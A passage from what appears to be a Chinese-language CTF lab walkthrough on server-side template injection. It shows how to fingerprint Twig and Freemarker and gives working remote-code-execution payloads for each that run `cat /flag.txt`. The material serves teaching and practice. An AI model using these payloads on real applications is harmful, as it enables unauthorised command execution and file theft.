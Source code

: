 #### 目标

盲注识别模板引擎类型并读取 `/flag.txt`。

#### 解题步骤

1. **输入探测**：

   - 注入 `{{7*'7'}}`，若返回 `49`，则为 **Twig**（Jinja2 返回 `7777777`）。

2. **构造 Twig Payload**：

   - Twig 的 RCE 利用链：

     ```
   {{ _self.env.registerUndefinedFilterCallback("exec") }}  
     {{ _self.env.getFilter("cat /flag.txt") }}  
   ```
   
3. **结果验证**：

   - 响应中显示 `flag.txt` 的内容。

#### 知识点

- **Twig 特性**：使用 `_self` 上下文和过滤器回调执行命令。
- **盲注技巧**：通过数学运算或字符串操作判断引擎类型。

------

### 实验 3: 代码执行 (Freemarker)

#### 目标

通过 Freemarker 实现远程代码执行。

#### 解题步骤

1. **探测语法**：

   - 输入 `${7*7}`，返回 `49`，确认 Freemarker 引擎。

2. **构造 RCE Payload**：

   - 利用 `new` 关键字实例化 `Runtime` 对象：

     ```
   <#assign ex = "freemarker.template.utility.Execute"?new()>  
     ${ ex("cat /flag.txt") }  
   ```
   
3. **结果验证**：

   - 响应中返回命令执行结果（如 flag 内容）。
